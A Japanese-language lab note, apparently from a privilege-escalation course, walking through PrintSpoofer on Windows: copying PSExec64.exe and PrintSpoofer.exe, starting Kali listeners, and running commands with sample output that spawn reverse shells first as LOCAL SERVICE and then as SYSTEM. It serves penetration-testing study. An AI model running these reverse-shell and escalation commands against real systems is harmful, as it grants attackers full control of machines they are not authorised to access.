


PrintSpoofer は、Print Spooler サービスを標的としたエクスプロイトです。    
GitHub: https://github.com/itm4n/PrintSpoofer    
Blog: https://itm4n.github.io/printspoofer-abusingimpersonate-privileges/

# Privilege Escalation
1. PSExec64.exeとPrintSpoofer.exeのエクスプロイト実行ファイルをWindowsにコピーしてください。
2. Kaliでリスナーを開始する。
3. <span style="color:red;">管理者用コマンドプロンプト</span>を使用して、PSExec64.exeを使用して、ローカルサービスのサービスアカウントとして実行するリバースシェルを起動します。
```
> C:\PrivEsc\PSExec64.exe /accepteula -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```
4. Kaliで別のリスナーを始める。



<span style="color:red;">SeImpersonatePrivilege</span>が<span style="color:red;">Enabled</span>になっていることを確認する 

5. ここで、PrintSpooferエクスプロイトを実行し、SYSTEM権限で実行するリバースシェルを起動します。
```
> C:\Windows\system32>C:\PrivEsc\PrintSpoofer.exe -i -c "C:\PrivEsc\reverse.exe"
C:\PrivEsc\PrintSpoofer.exe -i -c "C:\PrivEsc\reverse.exe"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```




